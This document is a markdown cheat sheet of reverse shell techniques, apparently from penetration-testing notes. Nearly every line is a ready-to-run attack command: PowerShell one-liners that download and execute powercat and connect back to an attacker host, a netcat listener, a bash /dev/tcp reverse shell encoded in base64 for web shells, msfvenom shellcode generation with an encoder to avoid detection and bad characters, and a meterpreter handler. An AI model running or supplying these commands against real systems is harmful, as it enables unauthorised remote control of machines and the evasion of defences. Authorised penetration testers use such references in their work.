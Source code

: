 ```yaml
---
description: Various reverse shell techniques in fast go cheat-sheet format
---
```


# 🐚 Reverse Shells

### Powercat

Serve Powercat.ps1

```bash
cd /usr/share/windows-resources && python3 -m http.server 80
```

Start a `netcat` listener

```
rlwrap nc -lvnp 4444
```

Run one of the commands:

{% tabs %}
{% tab title="Batch" %}
```batch
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://<local_host>/powercat.ps1'); powercat -c <local_host> -p <local_port> -e powershell"
```
{% endtab %}

{% tab title="Powershell" %}
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://<local_host>/powercat.ps1");powercat -c <local_host> -p <local_port> -e powershell 
```
{% endtab %}
{% endtabs %}

### Bash pipe

Base64 Encoded Bash - useful for web shells.

```bash
echo 'bash -i>& /dev/tcp/<ip>/4444 0>&1' | base64
```

### Msfvenom&#x20;

Generating shell code

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```

Generating obfuscated shell code with bad words:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Start meterpreter listener one-liner

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```
